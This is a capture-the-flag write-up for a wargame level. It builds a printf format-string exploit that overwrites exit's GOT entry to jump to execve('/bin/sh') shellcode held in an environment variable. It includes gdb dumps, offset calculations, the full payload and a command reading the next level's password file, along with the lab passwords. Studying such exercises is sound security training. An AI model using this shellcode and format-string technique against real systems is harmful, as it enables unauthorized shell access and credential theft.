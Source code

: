 # Level 05
*password : 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN*

## Analyze

```
scp -P 4242 level05@192.168.56.109:level05 binary/
```

## printf exploit

**objective** : overwrite `exit` return address to execute a shellcode

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

`exit` return address : 0x080497e0

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```
(gdb) x/200x environ
...
0xffffd80c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd81c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd82c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd83c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd84c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd85c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd86c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd87c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd88c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd89c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8bc:     0x90909090      0x90909090      0x90909090      0x90909090
...
---Type <return> to continue, or q <return> to quit---
```

- env SHELLCODE address : 0xffffd8ac
   - ffff = 65535
   - d8ac = 55468

55468 - 8 = 55460\
65535 - 55468 = 10067

return exit() + 2 : 0x080497e2

- find offset :
```
python -c 'print "\xe0\x97\x04\x08" + "%p " * 15' | ./level05 
�0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x80497e0 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```
offet : 10

```
$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55460u" + "%10$hn" + "%10067u" + "%11$hn %10$p"' > /tmp/level05
$ cat /tmp/level05 - | ./level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
